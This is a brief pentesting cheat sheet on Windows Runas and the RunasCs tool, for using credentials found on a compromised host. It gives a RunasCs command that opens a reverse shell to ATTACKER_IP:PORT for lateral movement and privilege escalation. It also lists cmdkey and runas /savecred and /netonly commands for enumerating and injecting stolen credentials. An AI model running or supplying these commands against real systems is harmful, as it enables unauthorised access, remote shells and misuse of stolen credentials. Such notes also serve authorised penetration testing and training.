 # Runas

## Use case: 

### Use this when we have found credentials for a user, but we have no other methods to authenticate (Win-RM, etc). Essentialy, we inject the credentials found in memory to authenticate with these valid credentials.

## Github repo: https://github.com/antonioCoco/RunasCs/releases/tag/v1.5

### Command:

    .\RunasCs.exe USERNAME PASSWORD cmd.exe ATTACKER_IP:PORT (Execute a reverse shell as the authenticated user for lateral movement/privesc)

## More Commands

#### 1) 

    cmdkey /list

#### 2) 

    runas /savecred /user:USER\DOMAIN cmd.exe

## Credential Injection

    runas.exe /netonly /user:DOMAIN\USERNAME cmd.exe


#### Use credentials we found in case that we don't know where to exactly use them.

### TIP:

#### With /netonly, it can accept any password.

